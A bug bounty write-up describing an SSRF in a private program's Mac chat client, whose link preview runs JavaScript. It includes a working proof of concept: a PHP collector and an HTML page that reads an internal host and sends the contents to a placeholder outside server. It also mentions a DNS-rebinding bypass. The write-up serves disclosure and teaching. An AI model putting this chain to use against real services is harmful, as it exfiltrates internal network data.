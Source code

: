# [bugbounty]A Simple SSRF

This is a private program<br>
First of all, its web assets have several subdomains. After I tested it for a while, I plan to check out the mac client.
After installation, sign up for login, then I see a chat interface.<br>
Send a URL
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons<br>
I use my server ip to test. Then received<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header<br>
Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....<br>
Tested a lot of common internal ip<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect<br>
Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip<br>
Until there is an ip<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful<br>
Then I quickly submitted the vulnerability<br>
But<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.<br>
After testing, I found that it will also execute js because it is browser ua<br>

  

 

    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)<br>
Can successfully get Google returns the content length<br>
Does not seem to be blocked by Same Origin Policy<br>
Then we can get any internal network content<br>
**poc**<br>
xxx.php


    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html


    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding<br>
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)

**If Same Origin Policy blocks**<br>
Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .<br>
![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP<br>
Finally ![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)
